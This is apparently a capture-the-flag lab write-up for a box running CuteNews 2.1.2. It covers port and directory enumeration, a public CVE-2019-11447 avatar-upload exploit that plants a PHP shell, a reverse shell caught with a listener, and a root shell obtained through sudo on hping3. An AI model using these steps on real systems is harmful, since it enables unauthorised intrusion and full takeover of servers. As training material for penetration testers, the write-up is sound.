


# Scope

> The target is compromised via Remote Code Execution (RCE) in CuteNews v2.1.2 through a vulnerable avatar upload feature. Privilege escalation is achieved by abusing SUID permissions on /usr/sbin/hping3, enabling root-level command execution.

# Enumeration

## Ports

```bash
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 61
80/tcp  open  http         syn-ack ttl 61
88/tcp  open  kerberos-sec syn-ack ttl 61
110/tcp open  pop3         syn-ack ttl 61
995/tcp open  pop3s        syn-ack ttl 61
```

## Services

```bash
PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 04d06ec4ba4a315a6fb3eeb81bed5ab7 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDfExBygmjGp3e7nXpwC4vVz4LWCyYHz0L7j/LG/9jppdNt9Mu+zgnzKeiXSl7MUUNHxX2diHm7cdwzjRZATsPHs/x8QXhkwLpcJNvKAKl4dg+HFJIJaQH1yyzdY93y
oiRrjqG37VJ4FCh68d8ouC4UGtsf9jjzxA3LwPpn7q8Tw/uqN/8+CMdmTyqa07Z2mVdmkzyokknCX40ZCBCUNPgQYTQYLW3GAmJMuHcE5d7SSyogWeqPbkM7Mub3x5rwYL1Wf+9Y8I5SbmMcFRHOSGroKHYcvbvt8A/VUq
w44XtzvPdllhfFbwWpj1xwcNILi1WgWoBw3ymD14PFZUWXUZbR
|   256 24b3df010bcac2ab2ee949b058086afa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBiSQebU59RFA2H+6WZcwxmwTS9j3i3ttgEcwQi8oJoo7UNtulXExHcLQt2AXsZuRk6WilnLEoKyZxwC5DWsikE=
|   256 6ac4356a7a1e7e51855b815c7c744984 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF6g+3N64VFhd+Aw/pbyZ7+qU1m+PoxIE9Rmeo61lXIe
80/tcp  open  http     syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-favicon: Unknown favicon MD5: 759585A56089DB516D1FBBBE5A8EEA57
| http-methods:
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Apache2 Debian Default Page: It works
88/tcp  open  http     syn-ack ttl 61 nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: 404 Not Found
110/tcp open  pop3     syn-ack ttl 61 Courier pop3d
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US/organizationalUnitName=Automatically-generated PO
P3 SSL key/localityName=New York
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US/organizationalUnitName=Automatically-generated POP3 SSL key/
localityName=New York
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee240c866d1b32771e6085af50b7e28
| SHA-1: 28a3acc086a7cd648f0978fa179270320eccb154
| -----BEGIN CERTIFICATE-----
| MIIE6zCCA1OgAwIBAgIBATANBgkqhkiG9w0BAQsFADCBjjESMBAGA1UEAxMJbG9j
| YWxob3N0MS0wKwYDVQQLEyRBdXRvbWF0aWNhbGx5LWdlbmVyYXRlZCBQT1AzIFNT
| TCBrZXkxHDAaBgNVBAoTE0NvdXJpZXIgTWFpbCBTZXJ2ZXIxETAPBgNVBAcTCE5l
| dyBZb3JrMQswCQYDVQQIEwJOWTELMAkGA1UEBhMCVVMwHhcNMjAwOTE3MTYyODA2
| WhcNMjEwOTE3MTYyODA2WjCBjjESMBAGA1UEAxMJbG9jYWxob3N0MS0wKwYDVQQL
| EyRBdXRvbWF0aWNhbGx5LWdlbmVyYXRlZCBQT1AzIFNTTCBrZXkxHDAaBgNVBAoT
| E0NvdXJpZXIgTWFpbCBTZXJ2ZXIxETAPBgNVBAcTCE5ldyBZb3JrMQswCQYDVQQI
| EwJOWTELMAkGA1UEBhMCVVMwggGiMA0GCSqGSIb3DQEBAQUAA4IBjwAwggGKAoIB
| gQDIBsPdZDb45UVqWpRZiqVqbC1vCd4mXw2Qif5BWHME351unfanqY3pywEGOPha
| J7HuyhLzSF2dWmF3z8I+g4C5q4xO3MglQ2CHfJyAxvfk+pD7omcaFi3N7j5JnPsJ
| enmVWNalaI6bCPGcf1P5ymeHLK61FqL+/Rlaw2x2rsbA+XxNXPdrqOFA4XinNb09
| EiO/qSCmL1r9Q9bTrMkByecJ7iEUK5EwQBDUCoUywnJ+Pu0gExw3mdscKSb3oNw8
| IBZhY6jXGMqjrBQ4pwqWWV9/ljEXEQj6gEqSjweOyYoA3OuB9+5ppTBRzpB22bMq
| kvHnCO0u9h6tSjwZ7+vxynuaVKuyxcfMLl4bO7EYy/dZjJ2fWHZtGkGm4q/HZ97r
| M8gYeEoEr5s5jNmRVrxejO/9w5zNsrZCPt///bFF+h1TWvV1IaCchuxE32srOQfl
| UUgJ4XhgcqD6DaG5nqtJ7LrpN0TcvP373c6J8CJ2b/JSuyHP04TvAEEJYj+vMnVG
| ZsUCAwEAAaNSMFAwDAYDVR0TAQH/BAIwADAhBgNVHREEGjAYgRZwb3N0bWFzdGVy
| QGV4YW1wbGUuY29tMB0GA1UdDgQWBBTFu1JxVBbqWHll0UH7hPEBv+KFizANBgkq
| hkiG9w0BAQsFAAOCAYEADawbz6QNBk3+miizqqXooRU2wZcx+Du6iM92rKLNZCq+
| wEXZEdxGi/WSOY7UxrJbP6dfxvyIpmwsZjFOqNr3w3l0Y/Nwdw23o6gxOlkDFt9p
| dTopD2CYEwmIiRgT60ulZ+gIcHeJu4ExVQ8PDxRnWPEECodQHWrPBVyRa585FQB0
| YpUMjahA98qcvWCaNAI824uDZ9frptM4syzTKFjl/CYuhXGdNDTbq1fjaOJ1MXvh
| qCzKG3A4JLf3R448QtcB5n8LhgwO7w6y7XjBAPYmOcEiuBhRTzy2dzKHLhxXFaHI
| J9A8csWHebvYr80Th7ELpkNgXCnu3mbr2DkWk7hbYSTfcmgi+ISkd892MOllLiu/
| 3dWqund8Bg2gOExQbdeyOMg4+WeQedUQ4sWjI8s7QL9o6H9kwRVsabkYGxfl56Zz
| xrI2K3odZgnCnFCzlu/2cbuzNfF7DvvKHs057F3PzIVxSPuoTcgLNllr4tJqABjY
| JpyNakJF76tDW03eEoAT
|_-----END CERTIFICATE-----
|_pop3-capabilities: PIPELINING TOP IMPLEMENTATION(Courier Mail Server) USER LOGIN-DELAY(10) UIDL UTF8(USER) STLS
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 syn-ack ttl 61 Courier pop3d
|_ssl-date: TLS randomness does not represent time
|_pop3-capabilities: PIPELINING TOP IMPLEMENTATION(Courier Mail Server) LOGIN-DELAY(10) UIDL UTF8(USER) USER
| ssl-cert: Subject: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US/organizationalUnitName=Automatically-generated PO
P3 SSL key/localityName=New York
| Subject Alternative Name: email:postmaster@example.com
| Issuer: commonName=localhost/organizationName=Courier Mail Server/stateOrProvinceName=NY/countryName=US/organizationalUnitName=Automatically-generated POP3 SSL key/
localityName=New York
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-17T16:28:06
| Not valid after:  2021-09-17T16:28:06
| MD5:   5ee240c866d1b32771e6085af50b7e28
| SHA-1: 28a3acc086a7cd648f0978fa179270320eccb154
| -----BEGIN CERTIFICATE-----
| MIIE6zCCA1OgAwIBAgIBATANBgkqhkiG9w0BAQsFADCBjjESMBAGA1UEAxMJbG9j
| YWxob3N0MS0wKwYDVQQLEyRBdXRvbWF0aWNhbGx5LWdlbmVyYXRlZCBQT1AzIFNT
| TCBrZXkxHDAaBgNVBAoTE0NvdXJpZXIgTWFpbCBTZXJ2ZXIxETAPBgNVBAcTCE5l
| dyBZb3JrMQswCQYDVQQIEwJOWTELMAkGA1UEBhMCVVMwHhcNMjAwOTE3MTYyODA2
| WhcNMjEwOTE3MTYyODA2WjCBjjESMBAGA1UEAxMJbG9jYWxob3N0MS0wKwYDVQQL
| EyRBdXRvbWF0aWNhbGx5LWdlbmVyYXRlZCBQT1AzIFNTTCBrZXkxHDAaBgNVBAoT
| E0NvdXJpZXIgTWFpbCBTZXJ2ZXIxETAPBgNVBAcTCE5ldyBZb3JrMQswCQYDVQQI
| EwJOWTELMAkGA1UEBhMCVVMwggGiMA0GCSqGSIb3DQEBAQUAA4IBjwAwggGKAoIB
| gQDIBsPdZDb45UVqWpRZiqVqbC1vCd4mXw2Qif5BWHME351unfanqY3pywEGOPha
| J7HuyhLzSF2dWmF3z8I+g4C5q4xO3MglQ2CHfJyAxvfk+pD7omcaFi3N7j5JnPsJ
| enmVWNalaI6bCPGcf1P5ymeHLK61FqL+/Rlaw2x2rsbA+XxNXPdrqOFA4XinNb09
| EiO/qSCmL1r9Q9bTrMkByecJ7iEUK5EwQBDUCoUywnJ+Pu0gExw3mdscKSb3oNw8
| IBZhY6jXGMqjrBQ4pwqWWV9/ljEXEQj6gEqSjweOyYoA3OuB9+5ppTBRzpB22bMq
| kvHnCO0u9h6tSjwZ7+vxynuaVKuyxcfMLl4bO7EYy/dZjJ2fWHZtGkGm4q/HZ97r
| M8gYeEoEr5s5jNmRVrxejO/9w5zNsrZCPt///bFF+h1TWvV1IaCchuxE32srOQfl
| UUgJ4XhgcqD6DaG5nqtJ7LrpN0TcvP373c6J8CJ2b/JSuyHP04TvAEEJYj+vMnVG
| ZsUCAwEAAaNSMFAwDAYDVR0TAQH/BAIwADAhBgNVHREEGjAYgRZwb3N0bWFzdGVy
| QGV4YW1wbGUuY29tMB0GA1UdDgQWBBTFu1JxVBbqWHll0UH7hPEBv+KFizANBgkq
| hkiG9w0BAQsFAAOCAYEADawbz6QNBk3+miizqqXooRU2wZcx+Du6iM92rKLNZCq+
| wEXZEdxGi/WSOY7UxrJbP6dfxvyIpmwsZjFOqNr3w3l0Y/Nwdw23o6gxOlkDFt9p
| dTopD2CYEwmIiRgT60ulZ+gIcHeJu4ExVQ8PDxRnWPEECodQHWrPBVyRa585FQB0
| YpUMjahA98qcvWCaNAI824uDZ9frptM4syzTKFjl/CYuhXGdNDTbq1fjaOJ1MXvh
| qCzKG3A4JLf3R448QtcB5n8LhgwO7w6y7XjBAPYmOcEiuBhRTzy2dzKHLhxXFaHI
| J9A8csWHebvYr80Th7ELpkNgXCnu3mbr2DkWk7hbYSTfcmgi+ISkd892MOllLiu/
| 3dWqund8Bg2gOExQbdeyOMg4+WeQedUQ4sWjI8s7QL9o6H9kwRVsabkYGxfl56Zz
| xrI2K3odZgnCnFCzlu/2cbuzNfF7DvvKHs057F3PzIVxSPuoTcgLNllr4tJqABjY
| JpyNakJF76tDW03eEoAT
|_-----END CERTIFICATE-----
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP (tcp 80)

- There is an apache web server running here.
- There are hidden links here.

```bash
<SNIP>

200      GET       24l      126w    10356c http://192.168.232.128/icons/openlogo-75.png
200      GET      368l      933w    10701c http://192.168.232.128/
301      GET        9l       28w      319c http://192.168.232.128/manual => http://192.168.232.128/manual/
200      GET       63l      481w     3119c http://192.168.232.128/LICENSE.txt
200      GET        1l        7w       94c http://192.168.232.128/captcha.php
301      GET        9l       28w      317c http://192.168.232.128/core => http://192.168.232.128/core/
301      GET        9l       28w      317c http://192.168.232.128/docs => http://192.168.232.128/docs/
301      GET        9l       28w      322c http://192.168.232.128/manual/de => http://192.168.232.128/manual/de/
301      GET        9l       28w      322c http://192.168.232.128/manual/da => http://192.168.232.128/manual/da/
200      GET      155l      752w     9522c http://192.168.232.128/example.php
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.232.128/libs/css/ (Apache)
200      GET        7l      435w    36868c http://192.168.232.128/libs/js/bootstrap.min.js
200      GET        4l       63w    27466c http://192.168.232.128/libs/css/font-awesome.min.css
200      GET       11l     1680w   122911c http://192.168.232.128/libs/css/united.min.css
200      GET       11l     2346w   142327c http://192.168.232.128/libs/css/slate.min.css
200      GET     9831l    39935w   258549c http://192.168.232.128/libs/js/jquery.js
200      GET        1l       12w     1311c http://192.168.232.128/favicon.ico

<SNIP>
```

### License.txt file

- There's a licence file at the root of the website
  - http://192.168.232.128/LICENSE.txt
- This file names a CMS called [CutePHP](https://cutephp.com/).
- There is no version information here.

### CuteNews

- Going through the links leads to finding [example.php](http://192.168.232.128/example.php).
  

- Clicking into the navigation links opens up a Main page, where the url is: `http://cute.calipendula/example.php`. This could possibily be the domain name of the web server.
- Setting this in `/etc/hosts` fixes the broken web page issues.
- The other links on the page don't contain much.

- Based on the php files here, the assumption can be made that this site is PHP based. Therefore looking for the PHP file extension when directory busting might be able to provide other pages.

- [Cute News CMS](http://cute.calipendula/index.php) can be found at `/index.php`. This page has version information for the CuteNews plugin.
  - CuteNews 2.1.2



### Cute News Vulnerability

- There is a command execution vulnerability in versions up to cute news 2.1.|

> This module exploits a command execution vulnerability in CuteNews prior to 2.1.2.The attacker can infiltrate the server through the avatar upload process in the profile area.There is no realistic control of the $imgsize function in "/core/modules/dashboard.php"Header content of the file can be changed and the control can be bypassed.We can use the "GIF" header for this process.An ordinary user is enough to exploit the vulnerability. No need for admin user.The module creates a file for you and allows RCE.

[cve-2019-11447 PoC](https://github.com/thewhiteh4t/cve-2019-11447)

### POP3

- There isn't much that can be done here without any credentials whatsoever.

# Exploit

- There is a PoC for the vulnerability that can be used to get a reverse shell on the target.
  - [cve-2019-11447-EXP PoC](https://github.com/khuntor/CVE-2019-11447-EXP)
- This uploads a shell via the vulnerability mentioned above, and authenitcation isn't required.

**Exploit**

```bash
[Feb 26, 2026 - 16:32:34 (+08)] exegol-offsec CVE-2019-11447-EXP # python3 exploit.py
please input url:http://cute.calipendula/index.php
Do you hava a user account? [yes] or [no]no
Your usernaem is:  kExyBV
Your password is:  kExyBV
Your email is:  kExyBV@qq.com
register successfully, now you has logined
The uploaded file url:  http://cute.calipendula/uploads/avatar_kExyBV_testshell.php
```

**Listener**

```bash
Feb 26, 2026 - 16:32:22 (+08)] exegol-offsec CVE-2019-11447-EXP # penelope -p 9001
[+] Listening for reverse shells on 0.0.0.0:9001 →  127.0.0.1 • 192.168.215.2 • 192.168.45.216
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from cute.calipendula 192.168.232.128 Linux-x86_64 👤 www-data(33) • Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3
[+] Interacting with session [1] • Shell Type PTY • Menu key F12 ⇐
[+] Logging to /root/.penelope/sessions/cute.calipendula~192.168.232.128-Linux-x86_64/2026_02_26-16_32_54-425.log
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@cute:/$ whoami
www-data
```

# Internal Enumeration

- Enumeration of sudo capabilities for the www-data account shows that it can run a binary called hping3 as root.

```bash
www-data@cute:/var/www/html$ sudo -l
Matching Defaults entries for www-data on cute:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on cute:
    (root) NOPASSWD: /usr/sbin/hping3 --icmp
www-data@cute:/var/www/html$
```

# Privilege Escalation

- Since the user www-data can run the binary hping3, and it can run as root without requiring a password, it can be used to spawn a shell that retains root privileges.

```bash
www-data@cute:/var/www/html$ hping3
hping3> /bin/sh -p
# whoami
root
# cd /root
# ls
proof.txt  root.txt
# cat proof.txt
****************305a9f3c33a7beea
```

# Remediation

# Lessons Learnt

- Enumeration here is key. I would have been stuck on this box if I didn't notice the links leading off the main page. eg: `/example.php` is one such example.
- When finding a page, always check all the links, and the page source. Basically look through all the functionality. You never know what you might find there.
- When dealing with technologies such as CMSs, etc... always look for version info in order to help with learning about their weaknesses.
